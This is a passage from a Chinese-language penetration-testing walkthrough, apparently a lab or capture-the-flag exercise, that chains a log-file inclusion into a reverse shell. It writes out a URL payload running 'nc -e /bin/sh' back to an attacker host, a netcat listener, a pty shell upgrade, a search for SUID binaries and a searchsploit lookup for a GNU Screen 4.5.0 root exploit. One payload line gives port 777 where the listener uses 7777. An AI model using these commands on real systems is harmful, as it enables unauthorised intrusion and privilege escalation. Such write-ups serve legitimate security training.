 反弹 shell  
通过 nc 命令直接进行 shell 反弹

```
abc=nc -e /bin/sh 192.168.188.144 7777
http://192.168.188.160/thankyou.php?file=/var/log/nginx/access.log&abc=nc -e /bin/sh 192.168.188.144 777
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9Wq4uXwn0FQic27Z6cGDLhib1RplfCWuAmCTnkZK6deqJdxTQ3C5t5j4pw/640?wx_fmt=png)

在 kali 上用命令：nc -lvvp 7777 对端口 7777 进行监听

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WboePDw2t4F0qicXW5Z9pKicKsNKufftrfNITibJh2m3YVyaCGJpRXDqFg/640?wx_fmt=png)

切换到交互模式 shell

```
交互式shell命令:python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WMNBzSOy4EfG9adhQfMVpazvmreZBEFZ73FgUFibkia9PiaXBJxNnsvSFg/640?wx_fmt=png)

  

查看具有特殊权限的二进制文件  
查找一下可以用 root 权限运行的命令；

```
命令：find / -perm -u=s -type f 2>/dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WeJibCVJibpVvjyZORvfSvGaA7WOZHQ036LD2b1Vxlny9vuyDJAwrPhCw/640?wx_fmt=png)

这里我们发现了一个 screen-4.5.0 的这个特殊文件  
在 kali 中使用 searchsploit 命令对 screen-4.5.0 漏洞进行搜索

```
root@kalilinux:~# searchsploit screen 4.5.0
---------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                          |  Path
                                                                                        | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------- ----------------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                           | exploits/linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                     | exploits/linux/local/41152.txt
---------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVom5fwmc6481zCkHKFfT9WelvBKCfmW8C0c2T6YwasznlHUV0SYqgUFyHupx6OZ9kht3pey73lDQ/640?wx_fmt=png)
